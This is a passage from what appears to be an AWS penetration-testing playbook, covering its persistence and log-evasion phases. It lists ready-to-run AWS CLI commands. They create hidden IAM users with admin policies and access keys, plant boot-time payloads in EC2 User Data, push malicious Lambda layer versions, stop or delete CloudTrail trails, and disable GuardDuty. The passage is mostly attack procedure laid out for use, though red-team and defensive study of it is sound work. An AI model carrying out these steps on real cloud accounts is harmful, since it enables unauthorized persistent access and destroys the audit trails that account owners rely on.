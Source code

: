 
## Phase 6: Persistence

* **Create New IAM Users/Access Keys:**
    ```bash
    aws iam create-user --user-name <new_user> --profile <profile_name>
    aws iam create-access-key --user-name <new_user> --profile <profile_name>
    aws iam attach-user-policy --user-name <new_user> --policy-arn <admin_or_custom_policy_arn> --profile <profile_name>
    ```
* **Create/Update Login Profiles for IAM Users:**
    ```bash
    aws iam create-login-profile --user-name <user_name> --password <strong_password> --password-reset-required --profile <profile_name>
    ```
* **Add Own Account to Role Trust Policies (via `iam:UpdateAssumeRolePolicy`):**
    As described in Privilege Escalation, modify a role's trust policy.
* **Backdoor EC2 Instances:**
    * Add SSH keys, create cron jobs, install remote access tools.
    * Modify User Data to run scripts on boot (instance needs stop/start):
        ```bash
        # Encode payload to Base64 first
        aws ec2 modify-instance-attribute --instance-id <instance_id> --attribute userData --value file://payload.b64 --profile <profile_name> --region <region>
        ```
* **Backdoor Lambda Functions:**
    * Modify function code to include a backdoor.
    * Add triggers (e.g., CloudWatch scheduled event).
* **Modify Lambda Layers:**
    If you gain permissions to create new versions of Lambda layers (`lambda:PublishLayerVersion`) that are used by existing functions, you could inject malicious code.
    ```bash
    # Requires zipping your new layer code first
    # aws lambda publish-layer-version --layer-name <layer_name> --zip-file fileb://layer.zip --compatible-runtimes python3.9 --profile <profile_name> --region <region>
    ```
* **Create Malicious CloudFormation Stack with persistent resources.**

---

## Phase 7: Logging & Monitoring Evasion/Detection

* **CloudTrail:**
    * Understand what actions are logged (most API calls are).
    * Identify where logs are stored (S3 bucket, CloudWatch Logs).
    * Attempt to stop/delete trails (requires `cloudtrail:StopLogging`, `cloudtrail:DeleteTrail`).
        ```bash
        aws cloudtrail stop-logging --name <trail_arn_or_name> --profile <profile_name> --region <region>
        aws cloudtrail delete-trail --name <trail_arn_or_name> --profile <profile_name> --region <region>
        ```
    * Modify trail settings (e.g., remove global event logging, change S3 bucket).
    * Delete log files from S3 (requires `s3:DeleteObject` on the log bucket).
* **GuardDuty:**
    * Identify if GuardDuty is enabled: `aws guardduty list-detectors --profile <profile_name> --region <region>`
    * Attempt to disable GuardDuty or suppress findings (requires high privileges like `guardduty:StopMonitoringMembers`, `guardduty:DeleteDetector`, `guardduty:UpdateFindingsFeedback`).